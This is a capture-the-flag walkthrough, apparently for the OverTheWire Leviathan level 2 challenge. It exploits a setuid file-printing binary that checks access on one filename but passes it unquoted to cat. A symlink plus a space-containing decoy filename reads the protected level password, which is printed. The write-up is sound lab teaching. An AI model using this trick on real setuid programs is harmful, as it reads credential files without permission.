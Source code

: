 # Level 3

```
leviathan2@leviathan:~$ ls
printfile
leviathan2@leviathan:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
leviathan2@leviathan:~$ file printfile 
printfile: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=46891a094764828605a00c0c38abfccbe4b46548, not stripped
```

I went for the obvious solution but it doesn't seem to work. It doesn't seem like the filepath is hardcoded either

```
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/./leviathan3
You cant have that file...
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/./../leviathan_pass/leviathan3
You cant have that file...
```

Using `ltrace` shows promising results though. It seems like the filename isn't surrounded in quotes before it's passed to `cat`...

```
leviathan2@leviathan:/tmp/opopop$ echo asdf content > asdf
leviathan2@leviathan:/tmp/opopop$ ltrace ~/printfile asdf
__libc_start_main(0x804852b, 2, 0xffffd654, 0x8048610 <unfinished ...>
access("asdf", 4)                                                                                       = 0
snprintf("/bin/cat asdf", 511, "/bin/cat %s", "asdf")                                                   = 13
geteuid()                                                                                               = 12002
geteuid()                                                                                               = 12002
setreuid(12002, 12002)                                                                                  = 0
system("/bin/cat asdf"asdf content
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                  = 0
+++ exited (status 0) +++
```

This means that the `access` function may not necessarily verify the permissions for the same file it will be printing. Here's an example of what I mean

```
leviathan2@leviathan:/tmp/opopop$ echo This will not be printed > asdf\ ghjk
leviathan2@leviathan:/tmp/opopop$ ltrace ~/printfile asdf\ ghjk 
__libc_start_main(0x804852b, 2, 0xffffd654, 0x8048610 <unfinished ...>
access("asdf ghjk", 4)                                                                                  = 0
snprintf("/bin/cat asdf ghjk", 511, "/bin/cat %s", "asdf ghjk")                                         = 18
geteuid()                                                                                               = 12002
geteuid()                                                                                               = 12002
setreuid(12002, 12002)                                                                                  = 0
system("/bin/cat asdf ghjk"asdf content
/bin/cat: ghjk: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                  = 256
+++ exited (status 0) +++
```

Here `access` checks for the perms in the file `asdf ghjk` but a different file is printed. Let's use that with the password file

```
leviathan2@leviathan:/tmp/opopop$ ls -la
total 228
drwxr-sr-x   2 leviathan2 root   4096 Feb  7 18:26 .
drwxrws-wt 297 root       root 225280 Feb  7 18:26 ..
lrwxrwxrwx   1 leviathan2 root     30 Feb  7 17:01 symlink -> /etc/leviathan_pass/leviathan3
-rw-r--r--   1 leviathan2 root      0 Feb  7 18:15 symlink but fake
leviathan2@leviathan:/tmp/opopop$ ~/printfile symlink\ but\ fake 
Ahdiemoo1j
/bin/cat: but: No such file or directory
/bin/cat: fake: No such file or directory
```

And that did it! I needed to create a symlink because I'm not allowed to write files to `/etc/leviathan_pass`, but it seems to have worked perfectly.
